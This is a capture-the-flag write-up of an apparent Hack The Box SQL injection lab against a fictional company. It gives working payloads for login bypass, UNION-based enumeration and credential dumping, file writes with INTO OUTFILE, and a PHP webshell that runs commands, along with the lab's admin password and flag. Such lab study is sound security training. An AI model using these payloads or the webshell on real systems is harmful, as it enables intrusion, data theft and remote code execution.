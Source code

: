 ```yaml
---
sticker: lucide//database-backup
---
```

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

![image](https://academy.hackthebox.com/storage/modules/33/sqli_skills.png)

Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203155825.png)

# Bypassing the login page
---

First thing we face is the login page, we can begin this assessment by checking the source code: `CTRL+U`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203155958.png)

They haven't forgotten about any credentials or anything related, next thing in mind is trying the most simple SQLI payload:

```
' OR '1'='1'-- -
```

We can try this in the username section:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203160114.png)

To our surprise, we were able to successfully log in:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203160137.png)

# Database enumeration
---

We can go along with our roleplay, this part is not strictly related to the path intended to obtain the flag, but we can take advantage of the roleplay relating the company assessment and enumerate the database a little bit.

We are inside a dashboard panel, nothing seems off but the first thing we can notice is a search bar on the top right of the screen:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203160237.png)

From previous modules, we found the way to enumerate the database, we can try the following:

## Columns number
---

We can enumerate the number of columns by using `ORDER BY`:

```
' order by 1-- -
```

We need to increase the number until we get an error specifying we're off the number of columns, let's automatize this by sending the request to burp's intruder and using it in the following way:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203160644.png)



![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203160804.png)

After checking the responses we can see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203161026.png)

Error message starts in `6`, so, the number of columns is `5`.

Knowing this, we can start next step.

## Union Injection
---

We can use the following to check if the Union Injection is working:

```sql
cn' UNION select 1,@@version,3,4,5-- -
```

We are using this since we know the number of columns, we'll get the following output:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203161321.png)

So it indeed works, now we can begin to read the database:

```sql
cn' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -
```

We get the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203161420.png)

The `backup` table seems interesting, we can check it out:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4,5 from INFORMATION_SCHEMA.TABLES where table_schema='backup'-- -
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203161536.png)

We see the following, `admin_bk`, we can enumerate the columns in `admin_bk` using this:

```sql
cn' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='backup' AND TABLE_NAME='admin_bk'-- -
```

We will see the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203162243.png)

Got `username` and `password`, let's read it:

```sql
cn' UNION SELECT 1,username,password,4,5 FROM backup.admin_bk-- -
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203162347.png)

Got credentials:

```ad-important
`admin`:`Inl@n3_fre1gh7_adm!n`
```

# Now, Let's go for our flag
---

Nice, this was just an scenario to enumerate the risks of this vulnerability on the system, since in the roleplay we are doing an assessment for a company, it was important to check the enumeration part.

For our flag, we can simply try to upload a webshell in the following way.

## Checking our write privileges
---

We can check if we have high privileges with this:

```sql
' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user-- -
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203163116.png)

We can check we got `Y`, which stands for yes, meaning we have privileges, in order to write files, three conditions must be there:

```ad-important
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server
```

Let's check if `secure_file_priv` variable is not enabled:

```sql
' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203163254.png)

Value is empty, which means it is not enabled.

We can test writing with the following:

```sql
' union select 1,'file written successfully!',3,4,5 into outfile '/var/www/html/dashboard/proof.txt'-- -
```

If we visit `/proof.txt`, we can check the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203163428.png)

We've written successfully, we can now write our webshell in the following way:

```
' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/webshell.php'-- -
```

We can confirm it worked by going to:

`http://IP:PORT/dashboard/webshell.php?0=id`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203164153.png)

Let's list the `/` directory: `ls+/`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203164320.png)


We can see the flag, we can simply read it by using `cat+/flag_cae1dadcd174.txt`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203164435.png)

Got our flag: `528d6d9cedc2c7aab146ef226e918396`


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250203164504.png)

